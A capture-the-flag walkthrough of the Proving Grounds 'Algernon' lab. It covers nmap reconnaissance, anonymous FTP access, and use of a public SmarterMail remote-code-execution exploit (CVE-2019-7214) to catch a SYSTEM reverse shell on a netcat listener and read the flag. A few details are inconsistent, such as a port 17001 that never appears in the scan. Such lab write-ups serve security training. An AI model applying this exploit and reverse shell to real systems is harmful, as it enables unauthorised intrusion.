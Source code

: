 # ​Proving Grounds - Easy Windows - Algernon

- **Points** 10
- **Level** Easy
- **Number of Flags** 1
- **Vector Type** SmarterMail
- **IP** 192.168.53.65
- **Job Roles** Network Penetration Tester
- **Skills** Web Application Attacks

---

# About

In this lab, we will exploit a remote code execution vulnerability in build 6985 of the SmarterMail application. This exercise enhances your skills in identifying and exploiting vulnerabilities for gaining access to systems.

---

# Summary

This lab demonstrates exploiting a remote code execution vulnerability in SmarterMail build 6985 to gain SYSTEM-level access on a Windows server. Learners will identify the application version, leverage an RCE exploit, and use a reverse shell payload to compromise the target. This lab emphasizes web application exploitation and highlights the risks of unpatched software.

---

## Learning Objectives

**After completion of this lab, learners will be able to:**

- Enumerate open ports and services to identify the SmarterMail application running on port 9998.
- Confirm the application version and search for applicable exploits.
- Deploy the SmarterMail RCE exploit with a reverse shell payload.
- Verify SYSTEM-level access upon successful exploitation.
- Understand the importance of applying patches to mitigate known vulnerabilities.


---

## Recon

- NMap scan

```bash
nmap -A 192.168.53.65
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-17 09:10 UTC
Nmap scan report for 192.168.53.65
Host is up (0.00086s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  10:31PM       <DIR>          ImapRetrieval
| 07-17-25  02:07AM       <DIR>          Logs
| 04-29-20  10:31PM       <DIR>          PopRetrieval
|_04-29-20  10:32PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
9998/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Thu, 17 Jul 2025 09:11:05 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
|_http-server-header: Microsoft-IIS/10.0
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1903 - 21H1
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-17T09:11:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required


OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.88 seconds

```


---

## Basic Enumeration

- Anonymous FTP login is enabled, allowing unauthenticated access.

```bash
ftp 192.168.53.65
Connected to 192.168.53.65.
220 Microsoft FTP Service
Name (192.168.53.65:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
```

**Note: No sensitive data was found in the accessible FTP directories.(Rabbit Hole)**

- Port 80 is just a windows IIS page.
- Port 9998 is a login page.

---

## Port 9998 Enumeration

- Opening port 9998 in browser redirects to http://192.168.53.65:9998/interface/root#/login.
- Which is a login page belongs to **smartmailer**.
- Researching exploits for SmarterMail on Google we come across an interesting exploit.
- Exploit link https://www.exploit-db.com/exploits/49216

---

## Exploiting CVE-2019-7214 to get initial access

- Looking at the `nmap` results from earlier we do have .NET remoting running on port 17001. As such this exploit should be applicable to the target machine.
- Exploit configuration . We just need to update target ip (HOST) and our machine ip (LHOST) in the script.
- Then we need to start a netcat listener to get reverse shell.

```bash
nc -lvnp 4444
```

- After starting the listener, we can execute the exploit to get reverse shell.

```bash
python3 49216
```
- We will get the shell in our netcat listener as **Administrator**

```bash
nc -lvnp 4444 
listening on [any] 4444 ...
connect to [192.168.49.53] from (UNKNOWN) [192.168.53.65] 49906
bash -i
PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> 
```
---

## Flag Extraction

- Now we can just navigate to **C:\Users\Administrator\Desktop** and read the flag inside **proof.txt** file.

```bash
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/29/2020   9:29 PM           1450 Microsoft Edge.lnk                                                    
-a----        7/17/2025   2:07 AM             34 proof.txt                                                             


PS C:\Users\Administrator\Desktop> type proof.txt
76fb8ea14********1c2cbbb
```

---

## Author

[Zishan Ahamed Thandar](https://zishanadthandar.github.io)
